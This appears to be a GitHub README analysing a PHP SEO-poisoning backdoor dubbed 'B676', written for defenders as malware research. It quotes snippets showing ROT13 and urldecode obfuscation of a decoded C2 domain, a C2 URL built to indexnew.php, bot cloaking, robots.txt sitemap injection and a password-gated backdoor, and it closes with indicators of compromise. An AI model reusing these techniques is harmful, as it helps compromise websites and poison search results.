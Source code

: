 # 🛡️ PHP SEO Backdoor Malware – B676 Variant

> 🚨 **Disclaimer**: This repository is for **educational and research purposes only**. Do **not** deploy or use the code in any production environment. Malware is illegal and unethical to use maliciously. Learn responsibly.

---

## 📄 Overview

This repository documents a real-world PHP malware sample often used in search engine poisoning, SEO spam, and backdoor access. The script is found in compromised WordPress or shared hosting environments and is designed to cloak content, inject sitemaps, and communicate with a remote C2 (command-and-control) server.

The sample exhibits characteristics of:
- **SEO poisoning**
- **Remote code execution (RCE)**
- **Obfuscated communication with C2**
- **Bot detection & cloaking**
- **File injection (CSS, sitemap.xml, robots.txt)**
- **Persistence via stealth CSS payloads**

---

## 🧬 Malware Name Suggestions

- **B676 PHP Backdoor** (from internal comment `/* blog B676 */`)
- **PHP SEO Injector Shell**
- **Indexnew Web Shell**
- **ROT13 Cloaker Dropper**
- **Google Verification Faker**
- **C2-linked Sitemap Injector**

---

## 📂 Files in This Repo

| File                | Description                                    |
|---------------------|------------------------------------------------|
| `decoded_malware.php`     | Fully deobfuscated version of the malware      |
| `obfuscated.php` | Original obfuscated/encrypted malware sample |

---

## 🧪 Behavior Analysis

### 🔐 Initial Setup

```php
@set_time_limit(3600);
@ignore_user_abort(1);
```

- Prevents timeout and ensures the script runs even if user aborts the request.

---

### 🧅 Obfuscation

```php
$xmlname = '%73%6D%77%62%76%61%67%63%61%2E%70%6C%70%6E%79%7A%75%62%2E%66%76%67%72';
$goweb = str_rot13(urldecode($xmlname));
```

- `str_rot13` + `urldecode` used to hide the attacker-controlled C2 domain name.
- Final domain after decoding and ROT13: `fzjointpn.cycalmho.site`

---

### 📡 C2 Communication

```php
$web = $http_web . '://' . $goweb . '/indexnew.php';
```

- The malware sends a POST request with victim information including:
  - Host
  - Request URI
  - Language
  - Referrer
  - Whether a CSS payload is loaded
  - Bot status (Googlebot, etc.)

- Receives instructions from attacker such as:
  - `okhtmlgetcontent` – Send back and display malicious HTML
  - `okxmlgetcontent` – Send back XML to spoof sitemap
  - `pingxmlgetcontent` – Ping sitemap URLs
  - `getcontent404page`, `500`, `301` – Send custom HTTP headers

---

### 🎭 Bot Cloaking

```php
function disbot() {
    $uAgent = strtolower($_SERVER['HTTP_USER_AGENT']);
    return stristr($uAgent, 'googlebot') || stristr($uAgent, 'bing') || ...;
}
```

- Detects bots like Googlebot or Bingbot.
- When bots are detected, serves fake or SEO-optimized content to poison search engine results.

---

### 🗺 Sitemap & Robots Injection

```php
file_put_contents("robots.txt", "Sitemap: http://victim.com/malicious.xml");
```

- Modifies `robots.txt` to insert a malicious sitemap.
- Attempts to manipulate search engine crawlers to index attacker-defined links and pages.

---

### 🔓 Password-Protected Backdoor

```php
$password = sha1(sha1(@$_REQUEST['pd']));
```

- Requires double-SHA1 hashed password to activate upload or overwrite functionalities.
- Hash for known backdoor access:  
  `f75fd5acd36a7fbd1e219b19881a5348bfc66e79`

- If matched:
  - Writes `.xml`, `.css`, `.html`, or any payload
  - Can upload verification files for fake Google ownership

---

### 🧬 CSS File Dropper

```php
fcss($dpath, $ps, $urlc);
```

- Downloads a stealth CSS payload from the attacker domain and stores it as:
  - `/css/xyzabc.css`
  - Or `/wp-includes/css/xyzabc.css`

- Filename is partially based on ROT13 and host hash.
- Later injected into fake HTML using `[##linkcss##]` placeholder.

---

## 🔍 Indicators of Compromise (IOCs)

| Indicator | Type |
|----------|------|
| `indexnew.php` | Remote C2 API |
| `robots.txt` with unexpected `Sitemap:` lines | SEO Hijacking |
| Strange `.css` files in `wp-includes/css/` | Payload Injection |
| Usage of `str_rot13`, `urldecode`, or `google-site-verification` in PHP | Obfuscation / SEO abuse |
| Backdoor SHA1 hash: `f75fd5acd36a7fbd1e219b19881a5348bfc66e79` | Backdoor password trigger |

---



---

## 📚 License

MIT License – for research, education, and awareness only.  
Absolutely **no support or tolerance for malicious use**.

---

## ✍️ Author / Researcher

**Hamza Haroon**  
Cybersecurity enthusiast, developer, and malware analyst  
Feel free to contribute improvements or analysis.
